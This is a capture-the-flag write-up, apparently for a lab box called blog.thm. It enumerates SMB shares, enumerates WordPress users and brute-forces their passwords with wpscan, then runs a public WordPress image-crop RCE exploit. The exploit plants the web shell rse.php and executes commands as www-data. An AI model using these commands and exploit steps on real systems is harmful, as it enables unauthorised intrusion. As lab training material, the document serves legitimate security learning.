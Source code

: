 We find `print$`, `BillySMB` and `IPC$` shares with SMB1.

We have read access to `BillySMB`
Minimum password length is 5.

Usernames `bjoel` and `smb`

We connect
`smbclient //10.10.34.109/BillySMB` as any account
```
smb: \> ls
  .                                   D        0  Tue May 26 14:17:05 2020
  ..                                  D        0  Tue May 26 13:58:23 2020
  Alice-White-Rabbit.jpg              N    33378  Tue May 26 14:17:01 2020
  tswift.mp4                          N  1236733  Tue May 26 14:13:45 2020
  check-this.png                      N     3082  Tue May 26 14:13:43 2020
```

The images and video are what looks to be rabbit holes.  We do however have write access to that share.

The username `bjoel` is valid for wordpress, but no password.

`wpscan --rua -e tt,cb,dbe --url http://blog.thm` reveals another user `kwheel`

Attempt brute force

put `bjoel` and `kwheel` in `user.txt`
`wpscan --url http://blog.thm -P rockyou.txt -U user.txt -t 75`

Eventually the password for `kwheel` is revealed as `cutiepie1`


Wordpress version 5.0 is vulnerable to CVE-2019-8943.

Using the exploit from https://github.com/hadrian3689/wordpress_cropimage

`python wp_rce.py -t http://blog.thm -u kwheel -p cutiepie1 -m twentytwenty`

```
WordPress ImageCrop CVE 2019-8942

Login in
Login successful!

Getting Wp Nonce
Wp Nonce retrieved successfully ! _wpnonce: 7ad4689650

Uploading the image
Image uploaded successfully with Image ID: 38

Changing the path
Path has been changed successfully!

Getting Ajax nonce
Ajax Nonce retrieved successfully ! ajax_nonce: bcb9351293

Cropping the uploaded image
Done!

Creating a new post to include the image
Post created successfully!

Dropping Backdoor rse.php
Backdoor URL: http://blog.thm/rse.php

Example Payload: http://blog.thm/rse.php?0=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
